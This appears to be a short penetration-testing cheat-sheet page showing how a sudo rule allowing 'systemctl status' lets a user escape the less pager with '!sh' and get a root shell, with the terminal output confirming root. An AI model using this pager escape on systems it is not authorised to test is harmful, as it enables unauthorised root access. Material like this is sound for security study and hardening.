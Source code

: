 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Systemctl

If the `systemctl` command ends up invoking a pager, e.g. `less`, then PE can be achieved:

{% code overflow="wrap" %}
```bash
$ sudo -l
User x7331 may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/systemctl status random.service
​
$ sudo /usr/bin/systemctl status random.service
Aug 05 17:12:08 rnd.com systemd[1]: Starting Rnd Server...
Aug 05 17:12:08 rnd.com rnd-server.sh[792]: Spawning Rnd restarter in separate process
Aug 05 17:12:08 rnd.com rnd-server.sh[792]: Rnd restarter running with PID 852
Aug 05 17:12:08 rnd.com systemd[1]: Started Example Server.
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
